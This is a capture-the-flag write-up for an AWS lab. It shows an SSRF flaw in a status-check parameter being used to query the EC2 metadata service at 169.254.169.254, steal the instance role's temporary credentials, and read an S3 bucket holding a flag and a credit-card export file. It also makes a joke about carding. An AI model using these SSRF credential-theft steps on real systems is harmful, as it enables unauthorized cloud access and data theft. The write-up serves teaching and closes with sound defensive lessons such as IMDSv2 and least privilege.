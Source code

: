 ```yaml
---
title: "Pwned Labs - SSRF to Pwned"
date: 2024-02-04
categories: [AWS, Cloud, Security]
tags: [AWS, Security, EC2]
---
```


![Intro](/images/PwnedLabs/SSRF/8.png)

Hey everyone! It's time for another AWS Security challenge write-up. This time, we will be solving the [SSRF to Pwned](https://pwnedlabs.io/labs/ssrf-to-pwned) challenge. When we begin the lab, we are provided by an IP address as an entry point so let's start with that.

A Nmap scan reveals port 80 is open, so let's explore what's running there. Also, observe that the nmap also returned `ec2-52-6-119-121.compute-1.amazonaws.com` which indicates that this is a IP of an EC2 server.
```
nmap 52.6.119.121
Nmap scan report for ec2-52-6-119-121.compute-1.amazonaws.com (52.6.119.121)                                            
Host is up (0.21s latency).                                                                                             
Not shown: 998 filtered ports                                                                                           
PORT    STATE  SERVICE                                                                                                  
80/tcp  open   http                                                                                                     
443/tcp closed https
```

When I tried to open the IP in the browser, it redirects to `hugelogistics.pwn`.  We first need to add the following entry in our hosts file then we can browse the website in our browser. I added the following entry in the `C:\Windows\System32\drivers\etc\hosts` file. In case of Linux systems, you can add the entry in `/etc/hosts` file. 
```
52.6.119.121 hugelogistics.pwn
```
Now, when we load the site `hugelogistics.pwn` in our browser, we see the following site. 

![Intro](/images/PwnedLabs/SSRF/0.png)

While looking at the source code of the website, we can notice that this static website is hosted using S3 bucket hosting, and the bucket name is `huge-logistics-storage`. 

![Intro](/images/PwnedLabs/SSRF/source.png)

We can observe that the bucket is publicly accessible, and contains the flag in the `backup` folder. But, we do not have permission to read the `flag.txt`. 
```
$ aws s3 ls s3://huge-logistics-storage --no-sign-request
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --no-sign-request
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt

$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --no-sign-request
download failed: s3://huge-logistics-storage/backup/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```
Switching back to my browser, I started exploring the site and found a Status Check functionality, this functionality passes a parameter called "name" with the value `hugelogisticstatus.pwn`. The response is the Status Page as shown below. The first thing that comes to mind when you see this kind of functionality is SSRF.

![Intro](/images/PwnedLabs/SSRF/1.png)

So, without taking more time, I quickly passed the Instance Meta-data Service (IMDS) IP `http://169.254.169.254` to the name parameter. We can notice in the response, we are getting the data.

> There have been numerous cloud data breaches caused because an attacker was able to get the Role credentials attached to EC2 instances by exploiting vulnerabilities such as SSRF or RCE. This occurs because when exploiting a vulnerability like SSRF, an attacker can send requests to internal infrastructure. Each EC2 instance has a service called Instance Meta-data service (IMDS) attached to it. The Instance Metadata Service (IMDS) in AWS is a service that provides information about an Amazon Elastic Compute Cloud (EC2) instance, accessible at 169.254.169.254. It enables EC2 instances to retrieve metadata about themselves,
such as instance ID, IP address, security group information, and most importantly, the IAM credentials provided to the instance via the EC2 Instance Profile Role.\
You can obtain the temporary AWS credentials by `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance-role>`\
If an application running on an EC2 instance was vulnerable to SSRF attacks, attackers could exploit the vulnerability to exfiltrate the IAM credentials through the IMDSv1 endpoint, which are granted to the instance via IAM Instance Profile Role. With the stolen temporary security credentials, attackers could escalate their privileges and gain unauthorized access to other AWS resources, including S3 buckets, databases, or launch further attacks within the victim’s environment.\ 
To enhance security for the IMDS endpoint, AWS introduced IMDSv2, implementing a small yet crucial change in the way IMDS was accessed. Instead of allowing access without authentication, IMDSv2 enforces the fetching of a token that is then used to authenticate all requests made to the IMDS endpoint. This measure significantly reduces the risk of unauthorized access through SSRF vulnerabilities.
And, if in any scenario an attacker is able to extract these temporary credentials, AWS GuardDuty (if enabled) sends an alert notifying you about the incident. For example, below two alerts:
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.InsideAWS
> - UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS\
> InsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them to their own EC2 instance for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from within the AWS netowrk.\
OutsideAWS : If an attacker manages to retrieve temporary credentials from your server and exports them in the terminal of their system for further use, AWS GuardDuty will raise an alert, notifying you that someone is utilizing your credentials from outside the AWS network.

![Intro](/images/PwnedLabs/SSRF/2.png)

We were able to successfully obtain the temporary credentials by opening `http://hugelogistics.pwn/status/status.php?name=169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access`, here you should note that the role attached to the EC2 server is "MetapwnedS3Access".

![Intro](/images/PwnedLabs/SSRF/3.png)

We know once we get the AWS Credentials, our next step is to configure them into our AWS profile. But, this time we also have a token alongside AWS Access Key and Secret Key, we can configure those as shown below.

![Intro](/images/PwnedLabs/SSRF/5.png)

Or you can also export these credentials into your environment variables to use them further. 
```
$ export AWS_ACCESS_KEY_ID=key
$ export AWS_SECRET_ACCESS_KEY=key
$ export AWS_SESSION_TOKEN=token
```
We can observe that we have assumed the role MetapwnedS3Access, along with the EC2 instance id `i-0199bf97fb9d996f1` the role is attached to. This command below is basically `whoami` command in context of AWS.

```
$ aws sts get-caller-identity --profile ssrf
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```
Now, we have everything configured and working, so let us try to list the bucket objects with the recently obtained credentials. 

```
$ aws s3 ls huge-logistics-storage --profile ssrf
                           PRE backup/
                           PRE web/

$ aws s3 ls s3://huge-logistics-storage/backup/ --profile ssrf
2023-06-01 03:44:05          0
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt
```
We notice a file called `cc-export2.txt`, which contains data of bunch of credit card. We will use them for carding later /s.  

![Intro](/images/PwnedLabs/SSRF/7.png)

Let's obtain the flag and finish the challenge.
```
$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt - --profile ssrf
282f0[.............]7110
```

## Lessons Learned
1. Do not keep your confidential data in public buckets.
2. Assign proper permissions on the buckets and objects defining who can access your data, keeping in mind the Least privilege policy model.
3. Migrate all your previous EC2, ECS, EKS instances to IMDSv2 service.
4. With the latest announcement in the last re:Invent, all the new EC2 instances will be on IMDSv2 by default, but you should write a SCP to make sure nobody can change the configuration back to IMDSv1.  